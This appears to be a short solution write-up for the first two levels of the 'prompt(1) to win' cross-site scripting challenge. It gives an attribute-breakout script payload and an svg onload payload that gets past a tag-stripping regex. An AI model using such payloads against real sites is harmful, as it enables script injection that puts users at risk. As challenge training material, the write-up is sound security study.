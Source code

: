 # prompt(1) to win
### 0 
**Solve**

```html
"><script>prompt(1)</script>

```
<img width="500" src="https://user-images.githubusercontent.com/68285613/147693465-ee262fcc-5b5f-4933-9d9a-e8ab593cf366.png">

<br>

### 1
**Explain**

```JavaScript
var stripTagsRE = /<\/?[^>]+>/gi;
input = input.replace(stripTagsRE, '');
```
Need to bypass the input.replace part.

**Readings**
    - [What's the meaning of /gi in a regex? [duplicate]](https://stackoverflow.com/questions/27916055/whats-the-meaning-of-gi-in-a-regex/27916089)


**Solve**

*Remember to add a apace behind ```(1)```, so that it will be able to call prompt(1).*

``` JavaScript
<svg onload=prompt(1) 
```



<img width="500" src="https://user-images.githubusercontent.com/68285613/147695438-906a1682-fb06-4ee3-98b5-bee70ab631a3.png">

